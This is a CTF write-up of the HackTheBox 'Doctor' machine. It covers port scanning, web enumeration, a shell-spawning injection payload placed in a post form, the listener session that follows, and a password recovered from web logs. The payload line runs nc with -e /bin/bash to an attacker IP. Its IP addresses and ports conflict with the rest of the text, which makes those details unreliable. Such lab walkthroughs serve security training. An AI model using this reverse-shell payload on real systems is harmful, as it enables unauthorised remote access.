







# HackTheBox – Doctor

- Write-Up Author: [Calvin Lai](http://security.calvinlai.com)

## **Question:**
> Doctor


## Background

Dictor is a Linux machine from HackTheBox. A web application was hosted at this server which had the XSS vulnerability. The initial access was got when submitted a reverse shell XSS payload. A password changing record was found at the web server log, the user flag got. 

130n@calvinlai.com

Target Machine: 10.10.10.209

Attacker Machine: 10.10.14.16

## Write up
### 1. Service Scanning:

- Quick Pre-searching:

	

	```
	nmap -p- -T5 --min-rate=1000 10.10.10.209-oG fkclai.nmap
	```

- Details Analysis:

	

	```
	nmap -p $(grep -Eo '[0-9]{1,5}/open' fkclai.nmap | cut -d '/' -f 1 | tr -s '\n' ',') -sC -sV 10.10.10.209 -o nmap-result.txt
	```

- Enumeration strategies:
	1. Check Website Vulnerability  
	2. Check any hidden files/folders of the website
	3. Check the website

***
### 2. Enumeration:

Visit the website and read the page source, it was found that the doctor.htb should be included in the host table before further enumeration.


A login page was found by visiting the http://doctors.htb



Tried using gobuster and dirb to find another hidden fold, but the result is negative. Nikto also does not has any good news. 

Finally, registered a user account and enumerate the inside. It was found that there was an XSS vulnerability at the POST message form.



After several tried, this payload was used to get the reverse shell

```
< img  src = http://10.10.14.26:8888/$(nc.traditional$IFS-e$IFS/bin/bash$IFS ' 10.10.17.216 '$ IFS ' 6666 ')>
```



```
root@fkclai:~/Documents/ctf/htb/linux/19-HTB-doctor# nc -nvlp 1234
listening on [any] 6666 ... 
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.209] 38714 
whoami 
web 
python3 -c 'import pty;pty .spawn("/bin/bash")' 
web@doctor:~$
web@doctor:~$ cd /home/ 
web@doctor:/home$ ls 
shaun web 
web@doctor:/home$ cd shaun/ 
web@doctor:/home/shaun$ ls 
user.txt 
web@doctor:/home/ shaun$ cat user.txt 
cat: user.txt: Permission denied 
web@doctor:/home/shaun$
```

***
### 3. Gaining Foothold:

After the user account "Shaun" was found that saved the user.txt, focusing the enumeration of this account. Finally, visited the apache2 log, there was a password reset process of this account Shaun was found at the acess.log. The password of this user account **shaun** is **Guitar123**



sudo this user account, the user flag was found. 


